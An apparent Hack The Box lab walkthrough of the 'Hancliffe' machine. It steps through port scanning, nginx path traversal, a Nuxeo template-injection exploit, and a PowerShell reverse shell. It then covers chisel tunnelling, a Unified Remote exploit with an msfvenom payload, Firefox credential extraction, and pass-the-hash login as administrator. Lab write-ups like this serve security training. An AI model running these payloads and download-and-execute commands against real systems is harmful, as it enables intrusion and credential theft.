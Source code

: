 > Author: **[Revolt][author-profile]**

## Discovery

### Port Scanning

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.21.0
8000/tcp open  http    nginx 1.21.0
9999/tcp open  abyss?
```

Probably a Python / JS app.

### Directories

```bash
gobuster dir -u http://10.10.11.115:80/ -w /usr/share/wordlists/discovery/raft-medium-words.txt -o discovery/directories.80.txt
# /.                    (Status: 200) [Size: 612]
# /maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
# /Maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
# /con                  (Status: 500) [Size: 494]
# /nul                  (Status: 500) [Size: 494]
gobuster dir -u http://10.10.11.115:8000/ -w /usr/share/wordlists/discovery/raft-medium-words.txt -o discovery/directories.8000.txt
# /includes             (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/includes/]
# /LICENSE              (Status: 200) [Size: 34501]
# /assets               (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/assets/]
# /.                    (Status: 200) [Size: 7880]
# /license              (Status: 200) [Size: 34501]
# /Includes             (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/Includes/]
# /Assets               (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/Assets/]
# /con                  (Status: 500) [Size: 177]
# /License              (Status: 200) [Size: 34501]
# /INCLUDES             (Status: 301) [Size: 169] [--> http://10.10.11.115:8000/INCLUDES/]
# /.gitignore           (Status: 200) [Size: 9]
gobuster dir -u http://10.10.11.115:80/maintenance/ -w /usr/share/wordlists/discovery/raft-medium-words.txt -o discovery/directories.maintenance.80.txt
# /.xhtml               (Status: 401) [Size: 220]
# /.                    (Status: 200) [Size: 714]
# /.jsf                 (Status: 200) [Size: 117]
```

### Virtual Hosts

Here goes nothing:

```bash
ffuf -u http://10.10.11.115/ --domain hancliffe.htb --append-domain \
  -w /usr/share/wordlists/discovery/raft-medium-words.txt \
  -o discovery/vhosts.80.txt
```

### Web Browsing

On `10.10.11.115:80`, `/maintenance/` redirects to `/nuxeo/Maintenance/`, while
`/Maintenance/` displays this message:

[][screenshot-maintenance]

And the port 8000 hosts a password manager:

![][screenshot-hashpass]

## Break-in

Nginx has a known path traversal [vulnerability with aliases][nginx-path-traversal].

```bash
ffuf -u http://10.10.11.115/maintenance/..;/FUZZ \
  -w /usr/share/wordlists/discovery/raft-small-words.txt \
  -o discovery/files.maintenance.80.txt
```

The login page displays the version of Nuxeo: `10.2`. It has a known CVE, with
a [POC on github][cve-2018-16341].

After updating the path to `login.jsp` to match `/maintenance/..;/login.jsp`
and removing the code for UNIX, the POC returns a shell:

```bash
python www/cve-2018-16341.py
# [+] Checking template injection vulnerability => OK
# command (WIN)> whoami
# [+] Executing command =>
# hancliffe\svc_account
```

It is not fully funtional, but it can be used to execute a reverse shell.
We generate it with a utility script:

```python
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
```

In the end I hardcoded the reverse shell in the CVE script so it'd be faster.

## Lateral Movement

```powershell
get-nettcpconnection | where {($_.State -eq "Listen") -and ($_.RemoteAddress -eq "0.0.0.0")} | select LocalAddress,LocalPort,RemoteAddress,RemotePort,State,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).Path}} | ft
```

```
LocalAddress LocalPort RemoteAddress RemotePort  State Process        
------------ --------- ------------- ----------  ----- -------        
0.0.0.0          49668 0.0.0.0                0 Listen services       
0.0.0.0          49667 0.0.0.0                0 Listen svchost        
0.0.0.0          49666 0.0.0.0                0 Listen svchost        
0.0.0.0          49665 0.0.0.0                0 Listen wininit        
0.0.0.0          49664 0.0.0.0                0 Listen lsass          
0.0.0.0           9999 0.0.0.0                0 Listen svchost        
0.0.0.0           9770 0.0.0.0                0 Listen MyFirstApp     
0.0.0.0           9512 0.0.0.0                0 Listen RemoteServerWin
0.0.0.0           9510 0.0.0.0                0 Listen RemoteServerWin
127.0.0.1         9300 0.0.0.0                0 Listen java           
127.0.0.1         9200 0.0.0.0                0 Listen java           
127.0.0.1         8080 0.0.0.0                0 Listen java           
127.0.0.1         8009 0.0.0.0                0 Listen java           
127.0.0.1         8005 0.0.0.0                0 Listen java           
0.0.0.0           8000 0.0.0.0                0 Listen nginx          
0.0.0.0           5432 0.0.0.0                0 Listen postgres       
0.0.0.0           5040 0.0.0.0                0 Listen svchost        
10.10.11.115       139 0.0.0.0                0 Listen System         
0.0.0.0            135 0.0.0.0                0 Listen svchost        
0.0.0.0             80 0.0.0.0                0 Listen nginx
```

Port 9512 and 9770 both look interesting.

The service listening on port 9512 is `Unified Remote`: it is unsual enough
to warrant closer inspection.

It is available from the local host only, so we forward it first:

```bash
./chisel server -p 8888 --reverse
```

```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.16.48:8000/chisel.exe', 'C:\Nuxeo\chisel.exe')
./chisel.exe client 10.10.16.48:8888 R:9512:127.0.0.1:9512
```

Nmap fails to identify the service, but the port scan from Powershell tells
us it's the `Unified Remote 3.9`:

```bash
searchsploit 'unified remote'
# ----------------------------------------------------------------------------------------------------- ---------------------------------
#  Exploit Title                                                                                       |  Path
# ----------------------------------------------------------------------------------------------------- ---------------------------------
# CA Unified Infrastructure Management Nimsoft 7.80 - Remote Buffer Overflow                           | windows/remote/48156.c
# Cisco Unified Operations Manager 8.5 - Common Services Device Center Cross-Site Scripting            | hardware/remote/35780.txt
# Cisco Unified Operations Manager 8.5 - 'iptm/advancedfind.do?extn' Cross-Site Scripting              | hardware/remote/35762.txt
# Cisco Unified Operations Manager 8.5 - 'iptm/ddv.do?deviceInstanceName' Cross-Site Scripting         | hardware/remote/35763.txt
# Cisco Unified Operations Manager 8.5 - iptm/eventmon Multiple Cross-Site Scripting Vulnerabilities   | hardware/remote/35764.txt
# Cisco Unified Operations Manager 8.5 - '/iptm/faultmon/ui/dojo/Main/eventmon_wrapper.jsp' Multiple C | hardware/remote/35765.txt
# Cisco Unified Operations Manager 8.5 - '/iptm/logicalTopo.do' Multiple Cross-Site Scripting Vulnerab | hardware/remote/35766.txt
# Cisco Unified Operations Manager - Multiple Vulnerabilities                                          | windows/remote/17304.txt
# Comodo Unified Threat Management Web Console 2.7.0 - Remote Code Execution                           | multiple/webapps/48825.py
# McAfee Unified Threat Management Firewall 4.0.6 - 'page' Cross-Site Scripting                        | windows/remote/34115.txt
# NVR SP2 2.0 'nvUnifiedControl.dll 1.1.45.0' - 'SetText()' Command Execution                          | windows/remote/4322.html
# Sun ONE Unified Development Server 5.0 - Recursive Document Type Definition                          | multiple/remote/22178.xml
# Unified Remote 3.9.0.2463 - Remote Code Execution                                                    | windows/remote/49587.py
searchsploit -m 49587
```

This exploit requires a payload:

```bash
msfvenom --arch x64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=10.10.16.48 LPORT=7777 -f exe -o rs.exe
```

And the script uploads the reverse shell itself, but requires to setup a
webserver. So we upload it manually before running the exploit:

```powershell
certutil.exe -f -urlcache "http://10.10.16.48:8000/rs.exe" "C:\Nuxeo\rs.exe"
```

(as hancliffe\svc_account)

And point the exploit to `C:\Nuxeo\rs.exe` since `C:\Windows\Temp` failed.

Then we can finally exploit the local port 9512, forwarded from the server:

```bash
nc -lvnp 7777
/usr/bin/python2.7 49587.py 127.0.0.1 10.10.16.48 rs.exe
```

Finally!

## Still on the Move

The previous enumerations identified vectors that weren't used yet:

- `MyFirstApp`, listening on port 9770
- [`Hashpass`][hashpass-github], listening on port 8000
- the `Brankas Application` on port 9999

The stateless password generator will always return the same result for a 

Browsing through the profile folders:

```powershell
type C:\Users\clara\App logins.json\Mozilla\Firefox\Profiles\ljftf853.default-release\logins.json
{"nextId":2,"logins":[{"id":1,"hostname":"http://localhost:8000","httpRealm":null,"formSubmitURL":"http://localhost:8000","usernameField":"website","passwordField":"masterpassword","encryptedUsername":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECP+7GREfh/OCBBACN8BqXSHhgvedk/ffsRBn","encryptedPassword":"MFIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECEQe5quezh5lBCg7VV7cXOky4tBMinRRncbXJl1YC3P0Ql5J8ZZS6ZnVjg9yXrbOq1Me","guid":"{39d1884b-56cd-4e30-869b-e0d9df6ca9d9}","encType":1,"timeCreated":1624771259387,"timeLastUsed":1624771259387,"timePasswordChanged":1624771259387,"timesUsed":1}],"potentiallyVulnerablePasswords":[],"dismissedBreachAlertsByLoginGUID":{},"version":3}
```

Since "hostname" is `localhost:8000`, the encrypted password is most likely
the master password for Hashpass. These can be cracked with [Firefox Decrypt][firefox-decrypt].

> ``#@H@ncLiff3D3velopm3ntM@st3rK3y*!``

Next the Hashpass service on port 8000 claims that it will always return the
same output for any given input. Hoping that the employees used this service
too, we try to retrieve the credentials of the `development` user:

```
Full Name: development
Website: hancliffe.htb
Password: `#@H@ncLiff3D3velopm3ntM@st3rK3y*!`
```

> development AMl.q2DHp?2.C/V0kNFU

Then we can execute commands as development:

```powershell
./chisel.exe client 10.10.16.48:8888 R:5985:127.0.0.1:5985
```

```bash
evil-winrm -i 127.0.0.1 -u development -p 'AMl.q2DHp?2.C/V0kNFU'
```

## Escalation

Now it is finally possible to access "MyFirstApp" and download it via
Evil-WinRM.

Next we load the app in Ghidra and explore the code. The app is vulnerable
to the socket reuse attack, as detailed [here][article-socket-reuse].

```bash
evil-winrm -i 127.0.0.1 -u administrator -H 2e5e9a333abf90ec9673220eb3befb83
```

[author-profile]: https://app.hackthebox.eu/users/189435

[article-socket-reuse]: https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/
[cve-2018-16341]: https://github.com/mpgn/CVE-2018-16341
[firefox-ecrypt]: https://github.com/unode/firefox_decrypt
[hashpass-github]: https://github.com/scottparry/hashpass
[nginx-path-traversal]: https://book.hacktricks.xyz/pentesting/pentesting-web/nginx
[screenshot-hashpass]: images/screenshots/hashpass.png
[screenshot-maintenance]: images/screenshots/maintenance.png
